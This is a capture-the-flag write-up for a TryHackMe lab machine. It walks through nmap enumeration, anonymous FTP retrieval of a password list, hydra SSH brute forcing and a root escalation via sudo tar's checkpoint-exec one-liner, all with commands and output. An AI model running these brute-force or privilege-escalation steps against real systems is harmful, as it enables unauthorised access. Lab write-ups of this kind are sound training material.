

# Bounty Hunter (Cowboy Hacker)

THM Room: <https://tryhackme.com/room/cowboyhacker>

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!


This is a very easy room. The final goal can be achieved in a very very very short amount of time if you do not overthink. The writeup here is a bit more elaborated than my actual hacking. But to add more educational information. Enjoy the dope!

**WARNING: I stripped out the answers. By following and doing the steps described here by yourself you will get them all!** 

## Table of Contents

- [Living up to the title](#living-up-to-the-title)
  - [Answer the questions below](#answer-the-questions-below)
- [Tools Used](#tools-used)
- [Enumerating](#enumerating)
- [Logging into the ftp server](#logging-into-the-ftp-server)
- [Brute forcing the user accounts](#brute-forcing-the-user-accounts)
- [Logging in with the user account](#logging-in-with-the-user-account)
- [Privilege escalation](#privilege-escalation)

## Living up to the title

You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future! 

### Answer the questions below

Who wrote the task list? 

    ***

What service can you bruteforce with the text file found?

    ***

What is the users password?

    R***r4gonSynd1***3

user.txt

    THM{C***3_SyNd1***3}

root.txt

    THM{8***7Y_h4***r}

## Tools Used

- nmap - To enumerate the server ports & services.
- hydra - To brute force the ssh & ftp server.
- A few basic GNU / Linux commands - Nothing fancy at all.

## Enumerating

But first, I like to make use of environment variables as I will remember the target IP for 2 minutes. I tend to f*ck up with these numbers, these IPs, like everyone does and finally end up having hacked the neighbor. $hit happens every day you know. And that's not supposed to happen, mistakes or not. So play safe!

```commandline
export IP=10.10.23.89
```

Then further, in this whole writeup, I will refer to this `$IP` environment variable in the commands.

First enumerate with `nmap` to check what ports and services are running. This with the common scripts (`-sC`), services version (`-sV`) and output also (`-oN`) the scan result into normal format to a file.

```commandline
$ sudo nmap -sC -sV -oA scans/initial $IP
[sudo] password for itchy: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-21 16:36 CEST
Nmap scan report for 10.10.23.89
Host is up (0.030s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.208.30
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.94 seconds
```

**Ports and services:**

- `21` - `ftp` - `vsftpd 3.0.3`
- `22` - `ssh` - `OpenSSH 7.2p2`
- `80` - `http` - `Apache httpd 2.4.18`

**Remarks:**

- Anonymous `ftp` login is allowed.

_Note: After my initial scan I ran a full ports scan, like  a `cowboy`, with adding the `-p-` flag, while I was busy with other things. Just to be sure, but did not show up other services above ports `1024`. And I was still not banned, so also no need to change to another fake `MAC` address of my network adapter. All OK so far like we say._

Looking at the webserver. There's nothing fancy there. Nice pic for the geeks, but that it.



The source code of the page did not reveal anything. At this point I could also enumerate the webserver with `gobuster` for example, to find out what files and folders are available. Also, the image could be fetched and analysed to find out if there's some hidden message into this. But like we have an FTP server running there, which allows anonymous login, so let's first look to the `FTP` server. In the worst case, we come back to the web server.

But first, as there are some usernames popping out it looks like. We need to save them. we never know if that are actually real users accounts. So I created a file called `usernames.txt` and saved these names on separated lined. Can be handy if we need to bruteforce something. Use whatever tool you want, `nano`, `vim`, `emacs` ... But we are not going for another stupid editor war. so I illustrated another option to bypass that.

```commandline
$ cd
$ mkdir -p Documents/THM/bounty-hacker
$ cd Documents/THM/bounty-hacker
$ echo "spike" >> usernames.txt
$ echo "jet" >> usernames.txt
$ echo "ed" >> usernames.txt
$ echo "faye" >> usernames.txt
```

## Logging into the ftp server

Taking a look to the `ftp` server. Logged in as it allows `anonymous` login. But first, as I suspect that I will have to grab some files, I go to a location on my host system where I can save them. 

_Normally we are still in `~/Documents/THM/bounty-hacker`, but whatever._

```commandline
cd Documents/THM/bounty-hacker
$ ftp $IP
Connected to 10.10.23.89.
220 (vsFTPd 3.0.3)
Name (10.10.23.89:itchy): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (5.8623 MB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (1.1181 MB/s)
ftp> exit
221 Goodbye.
```

So, found 2 text files, grabbed them. I have no clue why, but we like to grab everything on the internet. Just because we are bored and like to analyse their stuff. 

The content of `locks.txt` file:

```
$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

That is maybe a list with user passwords. That sound too stupid. Especially to put that on an `FTP` server with `anonymous` login. But the filename, `locks.txt` might give us the idea this is the case.

The content of `task.txt`:

```
$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We have maybe 2 more usernames. However, I suspect `Vicious` to be a Vicious system :-D Anyway, we do not know, so let's save these usernames to our potential `usernames.txt`.

```commandline
$ cd Documents/THM/bounty-hacker    # In case you where Lost In Space, bof that Netflix serie honestly
$ echo "vicious" >> usernames.txt
$ echo "lin" >> usernames.txt
```

Let's move on now!

## Brute forcing the user accounts

As we have still no clue honestly, we have maybe usernames, and passwords. So we need to try out to bruteforce the `ssh` server. For this I used a very good tool, `hydra` which is able to bruteforce a lot of online services.

```commandline
hydra -t 16 -L usernames.txt -P locks.txt $IP ssh
```

Which revealed me:

```commandline
[22][ssh] host: 10.10.23.89   login: lin   password: R***r4gonSynd1***3
```

_Note: Have also brute forced the `ftp` server with the same `hydra` command, just replaces the `ssh` by `ftp`. But did not reveal anything. On the second attack to the `ftp` server, I have added the `-vV` flag and `hydra` informed that these user accounts does not exist._

## Logging in with the user account

Logging in with `ssh` from my host machine wth user `lin` with the password we obtained:

```commandline
$ ssh lin@10.10.23.89
lin@10.10.23.89's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sat Aug 21 10:22:27 2021 from 10.8.208.30
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

It's a bit strange to fall immediately into the `~/Desktop` folder after `ssh` login, but whatever. That gave me the tip that my `user.txt` flag for this `CTF` was there :-D

Took a look around the user home drive, but nothing else found. I used the `ls -lah` command

```commandline
lin@bountyhacker:~$ cd ..
lin@bountyhacker:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
lin@bountyhacker:~$ ls -lah Desktop/ Documents/ Pictures/ Music/ Public/ Templates/ Videos/
Desktop/:
total 12K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt

Documents/:
total 8.0K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..

Music/:
total 8.0K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..

Pictures/:
total 8.0K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..

Public/:
total 8.0K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..

Templates/:
total 8.0K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..

Videos/:
total 8.0K
drwxr-xr-x  2 lin lin 4.0K Jun  7  2020 .
drwxr-xr-x 19 lin lin 4.0K Jun  7  2020 ..
```

Actually, after this I ran a `ls -lah` in the home folder of this user, to find out more. In case we find nothing else. And then we find the user keys in the `.ssh` folder. The `.gnupg`
is empty, howe ver. But nothing exceptional, we have the password anyway. But we can grab the keys too if needed.

```commandline
lin@bountyhacker:~$ ls -lah
total 116K
drwxr-xr-x 19 lin  lin  4.0K Jun  7  2020 .
drwxr-xr-x  3 root root 4.0K Jun  7  2020 ..
-rw-------  1 lin  lin   257 Aug 21 11:05 .bash_history
-rw-r--r--  1 lin  lin   220 Jun  7  2020 .bash_logout
-rw-r--r--  1 lin  lin  3.8K Jun  7  2020 .bashrc
drwx------ 14 lin  lin  4.0K Jun  7  2020 .cache
drwx------  3 lin  lin  4.0K Jun  7  2020 .compiz
drwx------ 15 lin  lin  4.0K Jun  7  2020 .config
drwxr-xr-x  2 lin  lin  4.0K Jun  7  2020 Desktop
-rw-r--r--  1 lin  lin    25 Jun  7  2020 .dmrc
drwxr-xr-x  2 lin  lin  4.0K Jun  7  2020 Documents
drwxr-xr-x  2 lin  lin  4.0K Jun  7  2020 Downloads
drwx------  2 lin  lin  4.0K Jun  7  2020 .gconf
drwx------  3 lin  lin  4.0K Jun  7  2020 .gnupg
-rw-------  1 lin  lin  1.7K Jun  7  2020 .ICEauthority
drwx------  3 lin  lin  4.0K Jun  7  2020 .local
drwx------  5 lin  lin  4.0K Jun  7  2020 .mozilla
drwxr-xr-x  2 lin  lin  4.0K Jun  7  2020 Music
drwxrwxr-x  2 lin  lin  4.0K Jun  7  2020 .nano
drwxr-xr-x  2 lin  lin  4.0K Jun  7  2020 Pictures
-rw-r--r--  1 lin  lin   655 Jun  7  2020 .profile
drwxr-xr-x  2 lin  lin  4.0K Jun  7  2020 Public
-rw-rw-r--  1 lin  lin    66 Jun  7  2020 .selected_editor
drwx------  2 lin  lin  4.0K Jun  7  2020 .ssh
drwxr-xr-x  2 lin  lin  4.0K Jun  7  2020 Templates
drwxr-xr-x  2 lin  lin  4.0K Jun  7  2020 Videos
-rw-------  1 lin  lin   114 Jun  7  2020 .Xauthority
-rw-------  1 lin  lin  1.2K Jun  7  2020 .xsession-errors
-rw-------  1 lin  lin  1.2K Jun  7  2020 .xsession-errors.old
```

Also, a very important point at this stage is to look to the `.bash_history` file. To see what the user last ran as commands in his shell. Usually we can have a lot of chances to find precious information into this file! Looking into this file, and in this case, we did not find anything. Which is a bit unusual, but that's because this is all about a set-up scenario. 

## Privilege escalation

At this point we need to look which possibilities we have to do privilege escalation. There are fancy tools out there like: [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [LinEnum](https://github.com/rebootuser/LinEnum), [pspy](https://github.com/DominicBreuker/pspy) and [LSE](https://github.com/diego-treitos/linux-smart-enumeration). But first look if there is something useful in the home directory of the user, then at `sudo` and the `crontab` first before using extra tools we need to grab. Scrips can save a lot of time, but basics quick checks can also save a lot of time, like in this case.

Checking what this user is allowed to do with `sudo` and this revealed that the user is allowed to run `tar` with `root` rights.

```commandline
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Looking at the [FGTOBins about sudo tar](https://gtfobins.github.io/gtfobins/tar/#sudo) which gave the tip how to gain `root` access:

```commandline
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
# cat /root/root.txt
THM{8***7Y_h4***r}
```

Mission finished in 15 minutes!

Took me `3`-`4` or more time to make this whole writeup!

I hope you enjoyed the dope and learned something from it!
